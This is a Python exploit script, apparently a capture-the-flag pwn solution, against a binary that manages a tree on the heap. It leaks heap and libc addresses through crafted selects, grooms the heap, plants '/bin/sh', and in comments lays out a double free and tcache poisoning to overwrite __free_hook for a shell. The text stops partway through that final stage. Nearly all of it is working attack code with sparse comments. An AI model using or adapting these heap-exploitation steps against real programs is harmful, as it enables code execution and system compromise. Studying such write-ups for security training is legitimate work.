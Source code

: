```python  

def delete(v2):  
	sendnum(1)  
	sendnum(v2)

#0. prepare  
add(3,0)  
add(-0x28, 1) #used to clear root by producing nullptr(not useful)  
add(2,0)

#rearrange heap  
delete(3)  
delete(2)  
delete(-0x28)  
add(3,0)  
add(-0x28, 1)  
add(2,0)

#1. leak heap  
#find a pointer in the heap such that  
#       [p + 0x28] == nullptr  
#       [p + 8] == heap addr  
#that is pointer to btnode with lnode not null  
# => p == 0x555555758398  
heap_addr = select(0x10a8/8) - 0x1348  
print hex(heap_addr)

select(5) # resume the root, idx == 5 is var2 == 2

#2. leak libc  
#construct a pointer in the heap such that  
#       [p + 0x28] == nullptr  
#       [p + 8] == libc addr

# use manager.buf to construct unsorted bin  
for i in xrange(0, 0x90):  
	add(4 + i)  
delete(0x35) # construct [p + 0x28] == nullptr  
for i in xrange(0x90, 0xa0-5):  
	add(4 + i)  
# p == 0x3150  
empty_root2 = heap_addr + 0x57c8  
add(empty_root2) # used to prevent cycling  
empty_root = heap_addr + 0x5788  
add(empty_root) # used to prevent cycling  
add(heap_addr + 0x3100)  
add(u64("/bin/sh\x00"))  
#some preparation for shell

hv2 = heap_addr + 0x3150  
add(hv2)

libc_addr = select(-7296 / 8) - 0x3ebca0  
print hex(libc_addr)

select(0x528/8) # the one with var2 == heap150 is root

#3. get shell  
#delete a root node with parent == nullptr  
#select such that root points to the freed root node  
#free it, cause double free  
#tcache poison to rewrite __free_hook  
delete(hv2) #delete root  
```